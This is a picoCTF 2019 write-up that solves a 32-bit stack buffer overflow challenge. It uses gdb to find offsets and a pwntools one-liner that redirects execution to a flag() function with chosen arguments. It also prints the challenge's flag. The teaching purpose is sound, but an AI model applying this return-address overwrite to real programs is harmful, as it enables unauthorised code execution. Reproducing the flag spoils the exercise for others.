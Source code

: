 # PicoCTF19 OverFlow 2

## Challenge

Now try overwriting arguments. Can you get the flag from this [program](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln)? You can find it in /problems/overflow-2 on the shell server. [Source](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln.c).

## Hints

GDB can print the stack after you send arguments

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-2$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 22:04 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-2_3    33 Sep 28 22:04 flag.txt
-rwxr-sr-x   1 hacksports overflow-2_3  7500 Sep 28 22:04 vuln
-rw-rw-r--   1 hacksports hacksports     794 Sep 28 22:04 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-2$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It seems like a program that takes in some input and prints it back to you. Let's try that and some large input.

```bash
samson@pico-2019-shell1:/problems/overflow-2$ ./vuln
Please enter your string: 
A
A
samson@pico-2019-shell1:/problems/overflow-2$ echo $(python -c "print 'A'*184") | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We need to invoke the `flag()` function like `flag(0xDEADBEEF, 0xC0DED00D)` from `vuln()`

The hint suggests to look at the stack, so let's do that.

```bash
samson@pico-2019-shell1:/problems/overflow-2$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()
(gdb) info frame
Stack level 0, frame at 0x1:
 eip = 0x804872a in main; saved eip = <not saved>
 Outermost frame: Cannot access memory at address 0xfffffffd
 Arglist at 0x41414141, args: 
 Locals at 0x41414141, Previous frame's sp is 0x1
Cannot access memory at address 0xfffffffd
```

Notice how the `Arglist` is at `0x41414141`. Those are the `A`'s we passed in. So let's try a different string and see if we can figure out where in the list to enter our address and arguments.

Let's try 176 `A`'s followed by the rest of the alphabet to see what ends up at the arg list.

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

```bash
samson@pico-2019-shell1:/problems/overflow-2$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) bt
#0  0x45454545 in ?? ()
#1  0x46464646 in ?? ()
#2  0x47474747 in ?? ()
#3  0x48484848 in ?? ()
#4  0x49494949 in ?? ()
#5  0x4a4a4a4a in ?? ()
#6  0x4b4b4b4b in ?? ()
#7  0x4c4c4c4c in ?? ()
#8  0x4d4d4d4d in ?? ()
#9  0x4e4e4e4e in ?? ()
#10 0x4f4f4f4f in ?? ()
#11 0x50505050 in ?? ()
#12 0x51515151 in ?? ()
#13 0x52525252 in ?? ()
#14 0x53535353 in ?? ()
#15 0x54545454 in ?? ()
#16 0x55555555 in ?? ()
#17 0x56565656 in ?? ()
#18 0x57575757 in ?? ()
#19 0x58585858 in ?? ()
#20 0x59595959 in ?? ()
#21 0x5a5a5a5a in ?? ()
#22 0x00000000 in ?? ()
(gdb) info frame
Stack level 0, frame at 0xffada8e4:
 eip = 0x45454545; saved eip = 0x46464646
 called by frame at 0xffada8e8
 Arglist at 0xffada8dc, args: 
 Locals at 0xffada8dc, Previous frame's sp is 0xffada8e4
 Saved registers:
  eip at 0xffada8e0
```

```bash
(gdb) disas flag
Dump of assembler code for function flag:
   0x080485e6 <+0>:     push   %ebp
... <redacted>
   0x0804864a <+100>:   cmpl   $0xdeadbeef,0x8(%ebp)
   0x08048651 <+107>:   jne    0x804866d <flag+135>
   0x08048653 <+109>:   cmpl   $0xc0ded00d,0xc(%ebp)
   0x0804865a <+116>:   jne    0x8048670 <flag+138>
... <redacted>
   0x08048675 <+143>:   ret    
End of assembler dump.
```

Intersting, we saw that it stopped at `0x45454545` which are the `DDDD`. So now we have 176 `A`'s, 12 bytes, `FLAG_ADDRESS`. So we could use:

```bash
python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485e6)" | ./vuln
```

Now the arguments `arg1` and `arg2` won't be far past the `FLAG_ADDRESS`. Let's determine where it needs to go.

```bash
samson@pico-2019-shell1:/problems/overflow-2$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH'" > /tmp/in
samson@pico-2019-shell1:/problems/overflow-2$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r < /tmp/in
Starting program: /problems/overflow-2/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
[Inferior 1 (process 2734491) exited normally]
```

The program doesn't work because gdb isn't running under the same permissions. I'll copy the files over to another directory and attempt it

```bash
samson@pico-2019-shell1:/problems/overflow-2$ mkdir /tmp/s5
samson@pico-2019-shell1:/problems/overflow-2$ cp vuln /tmp/s5/vuln
samson@pico-2019-shell1:/problems/overflow-2$ vi /tmp/s5/flag.txt
samson@pico-2019-shell1:/problems/overflow-2$ cat /tmp/s5/flag.txt
SAMCTF{123123123123123}
samson@pico-2019-shell1:/problems/overflow-2$ pushd . && cd /tmp/s5
samson@pico-2019-shell1:/tmp/s5$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) b *flag
Breakpoint 1 at 0x80485e6
(gdb) b *flag+97
Breakpoint 2 at 0x8048647
(gdb) r < /tmp/in
Starting program: /tmp/s5/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Breakpoint 1, 0x080485e6 in flag ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048647 in flag ()
(gdb) info stack
#0  0x08048647 in flag ()
#1  0x41414141 in ?? ()
#2  0x42424242 in ?? ()
#3  0x43434343 in ?? ()
#4  0x44444444 in ?? ()
#5  0x45454545 in ?? ()
#6  0x46464646 in ?? ()
#7  0x47474747 in ?? ()
#8  0x48484848 in ?? ()
#9  0xf7fbe000 in ?? () from /lib32/libc.so.6
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
(gdb) x $ebp
0xffffd5ac:     0x42424242
```

There it is. `ebp` is the first argument and from this [stackoverflow post](https://stackoverflow.com/questions/42771550/why-does-first-parameter-in-x86-assembly-starts-from-offset-8)
We know the arguments are just 4 places off the flag adddress.

```bash
samson@pico-2019-shell1:/tmp/s5$ popd
/problems/overflow-2
samson@pico-2019-shell1:/problems/overflow-2$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'A'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn51b106031}Segmentation fault (core dumped)
```

## Flag

`picoCTF{arg5_and_r3turn51b106031}`